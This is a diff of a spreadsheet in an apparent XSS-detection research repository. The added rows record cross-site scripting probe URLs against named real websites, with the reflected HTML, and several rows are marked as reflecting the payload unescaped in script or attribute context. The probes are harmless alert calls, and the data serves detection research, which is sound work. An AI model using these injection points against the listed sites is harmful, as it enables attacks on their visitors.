

Before and after one commit to adnanshahz2018/Automated-XSS-Detection, an Excel workbook: solvingissues/file.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/solvingissues/file.xlsx (sheet Sheet1)
+++ b/solvingissues/file.xlsx (sheet Sheet1)
+row 30: https://www.wattpad.com/search/?q='; confirm`1`; '&ref=1 | SCRIPT | TRUE | <script type="text/javascript"> ↵ window.prefetched = {"search.stories.results.'; confirm`1`; '.false.false":{"data":{"total":0,"stories":[],"tags":[]}}}; ↵ </script> ,
+row 31: https://www.faz.net/suche/?query=' onmouseover='alert`1`&resultsPerPage=20 | ATTR | TRUE | <div class="js-adobe-digital-data is-Invisible" data-digital-data='{"site":{"digitalAsset":"faz.net"},"internalSearch":{"term":"' onmouseover='alert`1`","numberOfResults":0},"page":{"name":"2.2064","ressort":"Suche","type":"suche","title":"Suche","seoTitle":"Suche und Suchergebnisse - FAZ"}}'> ,
+row 32: https://www.nejm.org/search?pageType=search&q=</script><script>alert`1`</script>&asug= | SCRIPT | FALSE | None
+row 33: https://www.mainichi.jp/search/?&q='; confirm`1`; '&s=date | SCRIPT | TRUE
+row 34: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 35: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 36: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 37: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 38: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 39: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 40: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 41: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 42: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 43: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 44: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 45: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 46: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 47: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 48: https://www.mainichi.jp/search/?&q=&s='; confirm`1`; ' | SCRIPT | FALSE | None
```
Also changed, not shown: 31 added rows elsewhere in this sheet, 11 other files.
